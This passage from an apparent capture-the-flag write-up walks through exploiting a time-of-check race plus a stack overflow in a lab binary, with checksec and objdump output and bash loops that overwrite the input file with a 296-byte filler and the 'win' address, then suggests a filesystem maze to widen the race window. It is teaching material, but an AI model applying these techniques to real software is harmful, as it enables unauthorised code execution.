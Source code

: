 The second is that both PIE and stack canaries have been disabled. This means we could exploit a stack based buffer overflow more easily. Additionally, the lack of PIE means the address of the `win` function is static, so we do not need to leak any addresses at runtime in order to calculate it's location.

```bash
> checksec --file challenge

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Exploitation

This time I will demonstrate how we could exploit the race condition simply using bash loops. Let's connect over SSH on two terminals, then in one set up a loop to run the program with a file argument, and grep for the flag string. We know the flag starts with `cueh`.

```bash
while true; do ./challenge test; done | grep -a cueh
```

While this hangs, in another terminal we can craft another bash loop to alter the state of the file `test`. We know the offset is 296 bytes, so lets enter 296 `A`s for filler, then the address of the `win` function. We can find the `win` function using objdump.

```bash
ctf@2fa1db31da25:~$ objdump -x challenge |  grep win
0000000000401236 g     F .text	0000000000000075              win
```

We have everything we need to craft the second loop.

```bash
while (true); do echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x36\x12\x40\x00\x00\x00\x00\x00\n' > test; echo "" > test; done
```

This is enough to get the flag.

![Second flag](images/ss9.png)

This hit rate (on my system) is pretty low. A flag only comes out every few seconds - let's create a filesystem maze to increase the time it takes the program to locate and open the file `test`. This is because the kernel has to navigate and validate every directory in the path. This essentially widens the window of opportunity for the attacker to make the malicious change to the file.
